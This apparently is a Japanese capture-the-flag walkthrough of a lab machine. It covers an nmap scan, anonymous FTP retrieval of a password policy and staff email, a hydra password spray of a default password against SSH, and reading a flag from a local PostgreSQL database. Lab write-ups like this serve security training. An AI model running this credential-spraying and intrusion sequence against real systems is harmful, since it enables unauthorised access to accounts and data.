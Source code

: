 # 1.Port Scan
ip=10.129.115.133

`nmap -sC -sV $ip`

![fe2b16b55b9f45992b9257128923effd.png](../_resources/fe2b16b55b9f45992b9257128923effd.png)

# 2.FTP Connect

`ftp $ip`

anonymousでloginする

name: anonymous

![dfa3aac7d0d864d24c50d60e46e342a0.png](../_resources/dfa3aac7d0d864d24c50d60e46e342a0.png)

mail_backupに2つのファイルがあることを確認

`cd mail_backup`

dir

get password_policy.pdf

get welcome_28112022

![74cd26d7f4e05405760aed3370dd5142.png](../_resources/74cd26d7f4e05405760aed3370dd5142.png)

入手したパスワードポリシーにデフォルトのパスワードが記載されている。

password_policy.pdf

![c2ef90d85b1f9303886116ec5b54909b.png](../_resources/c2ef90d85b1f9303886116ec5b54909b.png)


新しくチームに配属されたメンバーに対して送られたメールを入手

![2b3087a6548cae73a1de75c6e3c55351.png](../_resources/2b3087a6548cae73a1de75c6e3c55351.png)

# 3. Hydra

メールからusernames.txtを作成

`echo "optimus\n""albert\n""andreas\n""christine\n""maria\n" > usernames.txt`  

![5df5d011ebc8a24d3bc33297c035ee26.png](../_resources/5df5d011ebc8a24d3bc33297c035ee26.png)

ヒュドラでパスワードクラックを実施

`hydra -L usernames.txt -p 'funnel123#!#' 10.129.115.133 ssh`

`login: christine`
`password: funnel123#!#`

![702523a49102c3f11a7940de57f14eb2.png](../_resources/702523a49102c3f11a7940de57f14eb2.png)

sshで接続

![6369f256d375df2566d58e4b50b83ad2.png](../_resources/6369f256d375df2566d58e4b50b83ad2.png)

postgresqlをport5432を使用している事を確認

ss -tln 

![063e462b7df2fa0cd86f7d01a85e395d.png](../_resources/063e462b7df2fa0cd86f7d01a85e395d.png)

ss -tl

![aea4639f43ea6629388233d962707ec5.png](../_resources/aea4639f43ea6629388233d962707ec5.png)

ローカルマシンでポート1234を開けている事を確認

ss -tlpn

![00d5de00a7f3b4efa968ebd640a5eda1.png](../_resources/00d5de00a7f3b4efa968ebd640a5eda1.png)

# 4.Flag get

PostgreSQLに接続。flagを入手

`psql -U christine -h localhost -p 1234`

\l

\c secrets

\dt

SELECT * FROM flag;

![619651207f132284b358c3d00743a9a9.png](../_resources/619651207f132284b358c3d00743a9a9.png)